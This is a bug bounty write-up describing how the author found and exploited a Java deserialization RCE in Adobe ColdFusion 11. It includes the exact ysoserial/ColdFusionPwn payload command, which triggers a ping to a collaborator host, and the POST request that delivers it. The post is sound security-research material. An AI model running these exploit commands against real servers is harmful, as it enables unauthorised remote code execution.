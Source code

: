 ```yaml
---
title: "[EN] - Exploiting my first RCE"
date: 2020-07-20T19:00:00+02:00
draft: false
tags: ["BugBounty", "RCE", "Tips", "Writeup", "Adobe ColdFusion", "ColdFusion"]
---
```


Recently on a BugBounty program I came across my first RCE, discovered and exploited rather quickly on a solution with a vulnerability that I don't master at all : Java Deserialization

## Recon
Currently improving my recognition tool [AutoRecon](https://github.com/JoshuaMart/AutoRecon), originally intended to help me with subdomain enumeration, I also want to perform some recognition tasks that are quite annoying when you have to do it many times.

The scope in question is like `*.domain.tld`, after enumerating subdomains, I wanted to test new tools, in this case [Gau](https://github.com/lc/gau) which allows to retrieve URLs known through several sources. That's when I was asked to see a URL with the extension `.cfm`, which I don't know at all:

![](/images/2020/bounty/RCE_GAU.png)

A quick search will find that this extension corresponds to `ColdFusion Markup Language`

An access on the URL actually allowed me to confirm that it is indeed the Adobe ColdFusion 11 application that is used, but the design seemed quite old ... interesting.

## Search for known vulnerabilities
A quick search on ExploitDB allowed me to find an exploit:
![](/images/2020/bounty/RCE_ExploitDB.png)

Unfortunately this one wasn't very detailed, after several researches I found an article that details the vulnerability and its exploitation [Exploiting Adobe Coldfusion](https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html).

To make a long story short, the exploit is possible through a Java deserialization on the `flex2gateway/amf` endpoint, after verification, it was available and a GET request returned a simple blank page.

## Exploitation
According to the article, exploitation therefore requires only two things:
- [Ysoserial](https://github.com/frohoff/ysoserial) for Java deserialization
- [ColdFusionPWn](https://github.com/frohoff/ysoserial) for exploitation

Then we can finally create our payload, in the following example, if the poc is successful, I will receive a ping on my burp collaborator, the output of the order is recorded in the file `poc.ser` :
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'ping {your_collaborator}.burpcollaborator.net' poc.ser`

So all that's left to do is to send it as a POST on the endpoint `flex2gateway/amf` :

`http post https://xyz.domain.tld/flex2gateway/amf Content-Type:application/x-amf < poc.ser`

And then I got the ping on my burp collaborator:

![](/images/2020/bounty/RCE_PoC.png)

## Conclusion

This is my first NCE found on a private program, really interesting because it exploits a known vulnerability with known exploits, but rather than launching the first exploit I could get my hands on, I preferred to document myself and look for something that would give me the impression to have a better mastery of the exploit even if it was wasting my time.

In fact, I discovered the vulnerability late one night, before exploiting it only the next day because I didn't want to do anything harmful since it's production.

Nevertheless, [Gau](https://github.com/lc/gau) is really a must-have and if you don't count the time spent reading / understanding the vulnerability, the research and exploitation took me less than 30min.
